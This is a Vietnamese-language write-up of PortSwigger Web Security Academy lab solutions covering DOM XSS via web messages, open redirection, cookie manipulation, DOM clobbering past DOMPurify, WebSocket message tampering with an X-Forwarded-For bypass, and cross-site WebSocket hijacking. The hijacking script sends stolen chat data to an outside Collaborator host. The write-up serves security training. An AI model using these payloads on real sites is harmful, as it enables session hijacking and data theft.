

# Web10

# DOM-based vulnerabilities

### ****DOM XSS using web messages****

Nhận thấy website lấy data từ `message event` để gán trực tiếp vào object `ads`



Dùng `iframe` để gửi gửi và trigger message event của website

```html
<iframe src="https://0a61009404234d4dc0a00d360058006b.web-security-academy.net/"
    onload="this.contentWindow.postMessage('','*')">
</iframe>
```

Copy paste và store vào Exploit server rồi gửi cho victim để hoàn thành lab


---

**DOM XSS using web messages and a JavaScript URL**

Nhận thấy website lấy url từ `message event`, check xem có `http:` hoặc `https:` trong đó không và redirect


Do đó ta có thể dùng protocol `javascript` để thực hiện `print()`, và gán `http:` vào variable `a` để bypass phần check `indexOf()`

```html
<iframe src="https://0a2e00cd03e15c7dc01fb9e600390023.web-security-academy.net/"
    onload="this.contentWindow.postMessage('javascript:print(); a=\'http:\';','*')">
</iframe>
```

Copy paste và store vào Exploit server rồi gửi cho victim để hoàn thành lab


---

### ****DOM XSS using web messages and JSON.parse****

Website sẽ parse `JSON` từ `event message`. Có thể thấy khi `JSON` có `type: load-channel`, script sẽ để đổi `src` của `iframe` thành `url` ta cung cấp trong `JSON`.


Như vậy `JSON` được gửi sẽ có dạng sau

```json
{
    "type": "load-channel",
    "url": "javascript:print()"
}
```

```html
<script>
    function send(object) {
        data = {
            "type": "load-channel",
            "url": "javascript:print()"
        };
        object.contentWindow.postMessage(JSON.stringify(data), '*');
    }
</script>
<iframe src="https://0aed005803bcb4f8c0eb782d006000f9.web-security-academy.net/" onload="send(this); console.log(this);" height="100%"
    width="100%">
</iframe>
```

Copy paste và store vào Exploit server rồi gửi cho victim để hoàn thành lab


---

### ****DOM-based open redirection****

Khi bấm nút Back to Blog, website sẽ kiểm tra URL hiện tại có phần `/url=(https?:\/\/.+)/` không, nếu có thì sẽ redirect ta về link sau `url=`.


Do đó ta chỉ cần thêm `&url=https://exploit-0a82000f0324b474c06e879501a000f8.web-security-academy.net/#` vào link hiện tại:

`https://0aaa00a90381b463c096870300400041.web-security-academy.net/post?postId=6&url=https://exploit-0a82000f0324b474c06e879501a000f8.web-security-academy.net/#`

Lab sẽ tự động solve sau khi ta truy cập link vừa craft được

---

### ****DOM-based cookie manipulation****

Khi ta xem một sản phẩm, website sẽ tạo cookie với giá trị là link của sản phẩm đó


Ở trang chủ sẽ có thêm mục Last viewed product.


Có thể đoán được link này được lấy từ cookie


Hơn nữa, ta có thể thấy url không bị escape → có thể thực hiện XSS


Link để khi victim truy cập sẽ bị set cookie chứa đoạn code XSS 

`https://0a4f00a7041269f6c0ed021e00e0005d.web-security-academy.net/product?productId=1&a='><script>print()</script>`

Ta cần redirect victim về trang chủ để XSS có tác dụng

Craft đoạn HTML

```html
<script>
    function reload(object) {
        if (/\/product?/.exec(object.src))
        object.src="https://0a4f00a7041269f6c0ed021e00e0005d.web-security-academy.net/"
    }
</script>
<iframe src="https://0a4f00a7041269f6c0ed021e00e0005d.web-security-academy.net/product?productId=1&a='><script>print()</script>" onload="reload(this);" height="100%"
    width="100%">
</iframe>
```

Copy paste và store vào Exploit server rồi gửi cho victim để hoàn thành lab


---

### ****Exploiting DOM clobbering to enable XSS****

Ta thấy trong hàm `loadComments()` có đoạn code


Đoạn code này có thể bị khai thác `DOM clobbering` bằng đoạn HTML sau:

```html
<a id=defaultAvatar></a>
<a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//"></a>
```

Do phần comment sử dụng `DOMPurify.sanitize()` nên các tag html trên có thể sử dụng bình thường.


Có thể thấy với protocol `cid`,  `DOMPurify` sẽ không phát hiện mã XSS


Đồng thời method `toString()` cũng không thực hiện URL encode thuộc tính `href` như khi dùng protocol `http`


Nhập đoạn mã trên vào phần comment và gửi, sau đó gửi thêm một bình luận bất kì nữa để kích hoạt XSS (do từ bình luận đó trở đi thuộc tính `href` của avatar mới bị thay đổi)

---

# WebSocket

### ****Manipulating WebSocket messages to exploit vulnerabilities****

Khi sử dụng chức năng Live chat để nhắn tin, website sẽ gửi message thông qua WebSocket


Vào WebSocket history để xem lịch sử gửi message

Gửi message vào repeater và sửa thành `{"message":""}` để thực hiện XSS


---

### **Manipulating the WebSocket handshake to exploit vulnerabilities**

Khi gửi message có chứa code XSS như `{"message":""}`, server sẽ phản hồi lại `{"error":"Attack detected: Event handler"}` và block IP của ta.


Ta có thể bypass việc bị block IP bằng cách sử dụng header `X-Forwarded-For`


Sau một vài lần thử, ta được các error như sau:

```
{"message":"javascript"} -> {"error":"Attack detected: JavaScript"}
{"message":"onerror="} -> {"error":"Attack detected: Event handler"}
{"message":"alert()"} -> {"error":"Attack detected: Alert"}
```

Từ đó ta craft được payload

`{"message":""}`


---

### **Cross-site WebSocket hijacking**

Nhận thấy khi bắt đầu kết nối với server, browser sẽ gửi message thông qua WebSocket với nội dung `READY` để lấy những cuộc hội thoại cũ.


Nếu xóa cookie khỏi request, server sẽ tạo cuộc hội thoại mới → server dựa vào cookie để xác định nội dung của cuộc hội thoại trước đó


Tuy nhiên, cookie sẽ tự được gửi khi ta bắt đầu khởi tạo WebSocket (do cookie của ta đang là `secure-only` nên cần dùng protocol `wss`). Ngoài ra WebSocket không bị áp dụng `Same Origin Policy`.

Do đó ta có thể dễ dàng viết script để gửi message đến server qua WebSocket và gửi lại message nhận được từ server về endpoint của ta

```html
<script>
    var ws = new WebSocket('wss://https://0a5800a703cbb53ec0364df0009f003a.web-security-academy.net/chat');
    ws.onopen = () => { ws.send("READY"); };
    ws.onmessage = (event) => {
        fetch('https://r3v750v03ltl01tdiqh9sx5yzp5ft4.burpcollaborator.net', { method: 'POST', mode: 'no-cors', body: event.data });
    };
</script>
```

Đọc trong Burp Collab, ta có được tài khoản của user `carlos`


Dùng tài khoản đó để đăng nhập và hoàn thành lab